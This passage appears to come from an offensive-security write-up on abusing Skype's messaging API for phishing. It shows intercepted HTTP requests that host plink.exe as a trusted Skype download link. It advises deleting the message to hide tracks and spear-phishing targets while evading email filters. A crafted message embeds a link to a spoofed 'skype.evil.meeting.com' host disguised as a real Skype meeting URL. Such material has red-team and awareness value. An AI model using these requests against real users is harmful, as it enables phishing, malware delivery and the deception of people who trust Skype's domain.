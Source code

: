 Step 2: Intercept the request and forward until you see this request

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid": "6937674706420748491",
"composetime": "2021-01-31T20:13:38.249Z",
"content": "<URIObject uri=\"https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED\" url_thumbnail=\"https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED/views/original\" type=\"File.1\" doc_id=\"0-cus-d17-REDACTED\">To view this file, go to: <a href=\"https://login.skype.com/login/sso?go=webclient.xmm&amp;docid=0-cus-d17-REDACTED\">https://login.skype.com/login/sso?go=webclient.xmm&amp;docid=0-cus-d17-REDACTED</a><OriginalName v=\"plink.exe\"></OriginalName><FileSize v=\"311296\"></FileSize></URIObject>",
"messagetype": "RichText/Media_GenericFile",
"contenttype": "text",
"imdisplayname": "mr d0x",
"amsreferences": [
    "0-cus-d17-REDACTED"
    ]
}

```

The download link is inside *url_thumbnail*.

```
https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED/views/original
```

Step 3: Delete your message to hide your tracks

Now you can use this link to spear phish your target. Skype's domain is trusted and so you won't have to worry about your link being flagged by email providers.

# Breaking Out Of The Chat Bubble

Messaging platforms will often show users' messages in a chat bubble. But any text outside of the chat bubble is considered 'authoritative' text, meaning it can be trusted. We can use this for our advantage in this case.

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid":"123456789",
"composetime":"2021-01-31T20:02:39.230Z",
"content":"Mr.d0x invited you to a meeting: <URIObject><a href='https://skype.evil.meeting.com'>https://skype.com/meetings/123-456-789</a></URIObject>",
"messagetype":"RichText/Contacts",
"contenttype":"text",
"imdisplayname":"mr d0x",
"properties":{
    "forwardMetadata":"{\"isForwarded\":false}"
    }
}
```
